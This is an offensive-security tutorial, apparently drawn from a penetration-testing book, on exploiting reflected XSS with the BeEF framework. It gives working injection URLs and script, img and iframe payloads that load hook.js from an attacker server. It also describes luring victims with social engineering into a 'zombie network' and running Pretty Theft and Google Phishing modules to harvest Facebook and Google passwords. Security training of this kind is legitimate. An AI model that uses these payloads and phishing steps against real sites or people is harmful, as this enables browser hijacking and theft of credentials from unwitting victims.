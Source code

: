 For our example, we'll use an XSS vulnerability discovered through Burp Suite’s Active Scans. Consider the following vulnerable URL:
http://www.securepla.net/xss_example/example.php?alert=test'<script>[iframe]</script>

Firstly, ensure the BeEF service is running. Once BeEF is up and running, log into the BeEF web interface at http://127.0.0.1:3000/ui/authentication. If everything is set up correctly, you should be able to log in using the default credentials: username “beef” and password “beef”.

In the terminal where BeEF was launched, you'll find URLs for both the web interface and the hook page (Hook URL). The hook page, which is a JavaScript file, contains the payload that will control the victim's browser once injected. This script is designed to connect the victim’s browser back to your central BeEF server without their knowledge.

After identifying an XSS vulnerability using tools like Burp Suite or ZAP on a Web Application VM (OWASP BWA), you can exploit it directly. For example:
http://[IP_of_OWASPBWA]/owaspbricks/content-2/index.php?user=harry3a201<script>alert(1)<%2fscript>6f350

This URL shows that the user parameter on the vulnerable page processes and displays JavaScript code. This confirms that the XSS vulnerability can execute JavaScript within the context of the victim’s browser.

To create a successful exploit, you can use JavaScript to include the hook.js file from your BeEF server. For instance, you might craft a URL like:
http://192.168.1.124/owaspbricks/content-2/index.php?user=harry3a201<script src=http://192.168.1.123:3000/hook.js></script>

This URL injects the hook.js script into the vulnerable page, allowing BeEF to control the victim’s browser.

Another way to inject the hook.js script is by using various JavaScript techniques. For example:

- Image Injection: ```<img src="http://192.168.1.123:3000/hook.js">```

- Iframe Injection: ```<iframe src="http://192.168.1.123:3000/hook.js"></iframe>```

These methods work similarly by causing the victim's browser to fetch and execute the hook.js script from your BeEF server.

Remember, if this is done on a public site, the URL must point to a publicly accessible address hosting the hook.js page and listening service.

Once the victim visits the crafted URL, using Social Engineering tactics, they will become part of your XSS zombie network. In the BeEF UI, you should see the victim’s browser listed under the "Hooked Browsers" panel on the left.

With an account hooked, BeEF provides various modules to exploit the victim. As demonstrated in the book, you can steal stored credentials, gather host IP information, scan hosts within their network, and more. This functionality is accessible through the "module tree" panel on the right.

One effective attack is the "Pretty Theft" module, which is simple yet powerful. Go to the Social Engineering folder, select Pretty Theft, and configure it as needed. For example, if you choose the Facebook template, input your BeEF server IP in the custom logo field. This allows the victim to retrieve the image from your server.

Upon executing the attack, a Facebook password prompt will appear on the victim’s system. You can customize this prompt to increase the likelihood that the target will enter their credentials. For gaining access to Google accounts, there is also a Google Phishing module available.
